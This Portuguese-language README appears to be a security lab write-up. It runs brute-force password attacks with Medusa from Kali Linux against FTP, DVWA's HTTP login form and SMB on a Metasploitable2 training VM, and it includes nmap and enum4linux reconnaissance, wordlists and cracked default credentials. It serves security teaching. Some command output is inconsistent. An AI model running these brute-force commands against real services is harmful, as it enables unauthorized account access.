 # LISTA-SIMULANDO-UM-ATAQUE-DE-BRUTE-FORCE-DE-SENHAS-COM-MEDUSA-E-KALI-LINUX

Laboratório de Segurança - Simulação de Ataque de Brute Force com Medusa e Kali Linux
🎯 Objetivo
Simular um ataque de força bruta em serviços FTP, HTTP e SMB utilizando a ferramenta Medusa no Kali Linux contra uma máquina virtual Metasploitable2.
🖥️ Ambiente de Teste
Máquina Atacante
Sistema: Kali Linux
Ferramenta: Medusa v2.3
Máquina Alvo (Vítima)
Sistema: Metasploitable2
IP: 192.168.56.101
Ambiente: VirtualBox
🔍 Reconhecimento Inicial
Teste de Conectividade
bash
Plain Text
┌──(kali㉿kali)-[~]└─$ ping -c 2 192.168.56.101
PING 192.168.56.101 (192.168.56.101) 56(84) bytes de dados.64 bytes de 192.168.56.101: icmp_seq=1 ttl=64 tempo=57,4 ms64 bytes de 192.168.56.101: icmp_seq=2 ttl=64 tempo=1,43 ms
--- Estatísticas de ping 192.168.56.101 ---2 pacotes transmitidos, 2 recebidos, 0% de perda de pacotes, tempo 1003 ms
rtt min/média/máx/desvio padrão = 1,425/29,396/57,368/27,971 ms


Varredura de Portas e Serviços
bash
Plain Text
┌──(kali㉿kali)-[~]└─$ nmap -sV -p 21,22,80,445,139 192.168.56.101
Resultado do Nmap:
 
Porta	Estado	Serviço	Versão
21/tcp	aberto	ftp	vsftpd 2.3.4
22/tcp	aberto	ssh	OpenSSH 4.7p1 Debian 8ubuntu1
80/tcp	aberto	http	Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp	aberto	netbios-ssn	Samba smbd 3.X - 4.X
445/tcp	aberto	netbios-ssn	Samba smbd 3.X - 4.X
Grupo de trabalho: WORKGROUP
⚔️ Ataque de Força Bruta - FTP
Teste Manual de Login FTP
bash
Plain Text
┌──(kali㉿kali)-[~]└─$ ftp 192.168.56.101
Conectado a 192.168.56.101.220 (vsFTPd 2.3.4)Nome (192.168.56.101:kali): admin331 Por favor, especifique a senha.
Senha: 530 Login incorreto.
ftp: Login falhou
ftp> quit221 Adeus.


Preparação de Listas de Credenciais
bash
Plain Text
┌──(kali㉿kali)-[~]└─$ echo -e 'usuário\nmsfadmin\nadmin\nroot' > usuários.txt
┌──(kali㉿kali)-[~]└─$ echo -e '123456\nsenha\nqwerty\nmsfadmin' > pass.txt


Ataque com Medusa - FTP
bash
Plain Text
┌──(kali㉿kali)-[~]└─$ medusa -h 192.168.56.101 -u users.txt -p pass.txt -M ftp -t 6
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks jmk@foofus.net
2025-10-12 19:55:38 VERIFICAÇÃO DE CONTA: [ftp] Host: 192.168.56.101 (1 de 1, 0 concluído) 
Usuário: users.txt (1 de 1, 0 concluído) 
Senha: pass.txt (1 de 1 concluído)


🌐 Ataque de Força Bruta - HTTP (DVWA)
Identificação do Alvo
Endereço DVWA: http://192.168.56.101/dvwa/login.php
Preparação de Listas
bash
Plain Text
┌──(kali㉿kali)-[~]└─$ echo -e 'user\nadmin\nmsfadmin\nadmin\nroot' > users.txt
┌──(kali㉿kali)-[~]└─$ echo -e 'usuário\nmsfadmin\nadmin\nroot' > usuários.txt


Ataque com Medusa - HTTP
bash
Plain Text
┌──(kali㉿kali)-[~]└─$ medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \-m PAGE:'/dvwa/login.php' \-m FORM:'username-^USER^bpassord-^PASS^blogin-login' \-m 'FAIL-Login falhou' -t 6
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks jmk@foofus.net
2025-10-12 23:02:15 VERIFICAÇÃO DE CONTA: [http] Host: 192.168.56.101 (1 de 1, 0 concluído) 
Usuário: admin (1 de 4, 0 concluído) Senha: password (1 de 4 concluído)2025-10-12 23:02:15 CONTA ENCONTRADA: [http] Host: 192.168.56.101 Usuário: admin Senha: password [SUCESSO]2025-10-12 23:02:15 VERIFICAÇÃO DE CONTA: [http] Host: 192.168.56.101 (1 de 1, 0 concluído) 
Usuário: msfadmin (2 de 4, 1 concluído) Senha: password (1 de 4 concluído)2025-10-12 23:02:15 CONTA ENCONTRADA: [http] Host: 192.168.56.101 Usuário: msfadmin Senha: password [SUCESSO]2025-10-12 23:02:15 VERIFICAÇÃO DE CONTA: [http] Host: 192.168.56.101 (1 de 1, 0 concluído) 
Usuário: user (3 de 4, 2 concluídos) Senha: password (1 de 4 concluídos)2025-10-12 23:02:15 CONTA ENCONTRADA: [http] Host: 192.168.56.101 Usuário: user Senha: password [SUCESSO]2025-10-12 23:02:15 VERIFICAÇÃO DE CONTA: [http] Host: 192.168.56.101 (1 de 1, 0 concluído) 
Usuário: root (4 de 4, 3 concluídos) Senha: password (1 de 4 concluídos)2025-10-12 23:02:15 CONTA ENCONTRADA: [http] Host: 192.168.56.101 Usuário: root Senha: password [SUCESSO]


💻 Ataque de Força Bruta - SMB
Enumeração com Enum4linux
bash
Plain Text
┌──(kali㉿kali)-[~]└─$ enum4linux -a 192.168.56.101 | tee enum4_output.txt
Principais Descobertas:
Domínio/Grupo de trabalho: WORKGROUP
Nome do servidor: METASPLOITABLE
Samba: 3.0.20-Debian
Compartilhamentos Encontrados:
print$ - Printer Drivers
tmp - oh noes!
opt -
IPC$ - IPC Service
ADMIN$ - IPC Service
Política de Senhas:
Comprimento mínimo: 5 caracteres
Histórico de senhas: Nenhum
Idade máxima da senha: Não definida
Complexidade: Desativada
Preparação de Listas SMB
bash
Plain Text
┌──(kali㉿kali)-[~]└─$ echo -e 'usuário\nmsfadmin\nserviço' > smb_users.txt
┌──(kali㉿kali)-[~]└─$ echo -e 'senha\n123456\nwelcome123\nmsfadmin' > senhas_spray.txt


Ataque com Medusa - SMB
bash
Plain Text
┌──(kali㉿kali)-[~]└─$ medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks jmk@foofus.net
2025-10-13 00:11:44 CONTA ENCONTRADA: [smbnt] Host: 192.168.56.101 
Usuário: msfadmin Senha: msfadmin [SUCESSO (ADMIN$ - Acesso permitido)]


✅ Validação de Acesso
Teste de Conexão SMB
bash
Plain Text
┌──(kali㉿kali)-[~]└─$ smbclient -L //192.168.56.101 -U msfadmin
Senha para [WORKGROUP\msfadmin]:
Compartilhamentos Acessíveis:
text
Plain Text
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
tmp             Disk      oh noes!
opt             Disk      
IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
msfadmin        Disk      Home Directories


📊 Resumo dos Resultados
Credenciais Comprometidas
 
Serviço	Usuário	Senha	Status
HTTP	admin	password	✅ Sucesso
HTTP	msfadmin	password	✅ Sucesso
HTTP	user	password	✅ Sucesso
HTTP	root	password	✅ Sucesso
SMB	msfadmin	msfadmin	✅ Sucesso
Serviços Vulneráveis Identificados
FTP (vsftpd 2.3.4) - Vulnerável a brute force
HTTP (Apache 2.2.8) - DVWA vulnerável a ataques de autenticação
SMB (Samba 3.0.20) - Política de senhas fracas


